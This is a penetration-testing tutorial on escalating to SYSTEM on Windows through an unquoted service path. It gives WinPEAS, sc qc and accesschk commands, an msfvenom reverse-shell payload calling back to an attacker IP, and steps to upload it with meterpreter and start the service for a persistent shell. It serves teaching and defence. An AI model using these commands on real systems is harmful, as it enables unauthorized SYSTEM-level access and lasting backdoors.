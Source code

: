 :orphan:
(privilege-escalation-techniques-windows-unquoted-service-path)=
# Privilege Escalation Techniques Windows Unquoted Service Path
 
The second stage of system hacking involves escalating privileges. Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Microsoft Windows services allow you to write long-running executables that operate in their own Windows sessions. These services can be started automatically when the computer boots, is paused, or restarted, and does not have a user interface. In this article, we will exploit the Unquoted service path technique to increase our privilege from low-level user to `NT-Authority/System` user. 

## Unquoted service path 

**Mitre ID:** T1574.009

**Tactics:** Privilege Escalation & Persistence

**Platforms:** Windows

Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher-level directory within the path so that Windows will choose the adversary's executable to launch.
`Source: https://attack.mitre.org/techniques/T1574/009/`

If the path to the service binary is not enclosed in quotes and contains white spaces, leads to a vulnerability known as an unquoted service path which allows the user to gain `SYSTEM` privileges.


For example, This service uses the unquoted path: `C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe`

To run the unquotespathservice.exe, the system will read this path in the following order. 
`C:\Program.exe`
`C:\Program Files\Unquoted.exe`
`C:\Program Files\Unquoted Path Service\Common.exe`
`C:\Program Files\Unquoted Path Service\Common Files`
`C:\Program Files\Unquoted Path Service\Common Files\unquotespathservice.exe
`
The service would treat the space as a break and pass the remaining portion of the service path as an argument if it were not enclosed in quotes and contained spaces.

This demonstration assumes that you have gotten a low privileged shell either through netcat or a meterpreter session, etc. 

![unsp_1](images/unsp_1.png)

To search for the unquoted service paths, use the `WinPEAS` script. `WinPEAS` is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe `

`winPEASx64.exe quiet servicesinfo`

![unsp_2](images/unsp_2.png)

By scrolling down for more results.

![unsp_3](images/unsp_3.png)

Winpeas script has found a service named unquotedsvc, which has an unquoted service path.

To escalate the privileges, we need this service to run with system privileges because if the service runs with privileges that are not elevated then we will not get elevated privileges.

Use the sc command to query the configuration of the service. The Service Control `(sc)`  command is used to **Create, Start, Stop, Query, or Delete any Windows SERVICE.** The command options for SC are case-sensitive. 

`sc qc unquotedsvc `

![unsp_4](images/unsp_4.png)

From the above screenshot, this command will provide a full binary path of the service ie `BINARY_PATH_NAME` and the `SERVICE_START_NAME` is Localsystem which means it starts or is executed with the `NT-Authority system` privileges. 

Now use the accesschk.exe tool to identify the current user permissions or check whether the `BUILTIN\User` group is allowed to write to the `C:\Program Files\Unquoted Path Service\` 
`AccessChk` is a console program. `AccessChk` allows administrators to see what kind of access specific users or groups have to resources, including files, directories, Registry keys, global objects, and Windows services.

The following command can be used to check the permissions for  `C:\Program Files\Unquoted Path Service\ `

`accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

![unsp_5](images/unsp_5.png)

From the screenshot, Read and Write permission is given to `BUILTIN\Users`. That means we can essentially place our malicious executable within these directories and receive a reverse connection. 

It’s time to exploit the weak configured services against unquoted paths by creating a backdoor file named Common.exe using msfvenom. 
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=4444 -f exe -o Common.exe `

![unsp_6](images/unsp_6.png)

After the file is created, navigate to the “`C:\Program Files\Unquoted Path Service`” folder and use the upload functionality of the meterpreter to upload the backdoor created. 

![unsp_7](images/unsp_7.png)

from the meterpreter session, switch to cmd by typing the shell command in the meterperter. Use the net start command to the service ie `unquotedsvc.` The net start command is used to start a network or list the running network services. 
`net start unquotedsvc 
`

![unsp_8](images/unsp_8.png)

As soon as the service will launch, the attacker will get a reverse connection in the new netcat session as `NT Authority \system` 

![unsp_9](images/unsp_9.png)

Escalation of privilege to the NT authority system is successful. This method will automatically restart the `Common.exe`, which will once more provide a reverse connection, even if the user restarts the system. To mitigate this attack always make sure to enclose the path for any services that have a space in quotes. 

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::